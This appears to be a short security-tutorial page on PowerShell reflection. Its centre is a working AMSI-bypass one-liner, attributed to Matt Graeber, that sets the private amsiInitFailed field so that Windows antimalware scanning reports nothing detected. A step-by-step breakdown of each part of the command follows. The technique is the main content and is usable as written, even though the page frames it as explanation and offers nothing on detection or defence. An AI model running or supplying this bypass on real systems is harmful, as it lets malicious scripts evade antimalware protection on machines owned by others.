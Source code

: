 # PowerShell Reflection & AMSI Bypass

Reflection allows users or administrators to access and interact with .NET assemblies. According to Microsoft documentation:

> "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications."

.NET assemblies may seem unfamiliar, but they often take the form of common file types such as `.exe` (executable) and `.dll` (dynamic-link library).

## PowerShell Reflection Abuse

PowerShell reflection can be abused to modify or extract information from valuable DLLs. For example, the AMSI (Antimalware Scan Interface) utilities for PowerShell are stored in the `AmsiUtils` .NET assembly, located in `System.Management.Automation.AmsiUtils`.

### AMSI Bypass One-Liner

Matt Graeber published a one-liner that uses reflection to modify and bypass the AMSI utility:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Code Breakdown

- **Access the Assembly and Type:**

    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
    ```

    This retrieves the `AmsiUtils` type from the assembly.

- **Get the Field:**

    ```powershell
    .GetField('amsiInitFailed','NonPublic,Static')
    ```

    This accesses the non-public static field `amsiInitFailed`.

- **Set the Field Value:**

    ```powershell
    .SetValue($null,$true)
    ```

    This sets the value of `amsiInitFailed` to `$true`.

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: `AMSI_RESULT_NOT_DETECTED = 1`.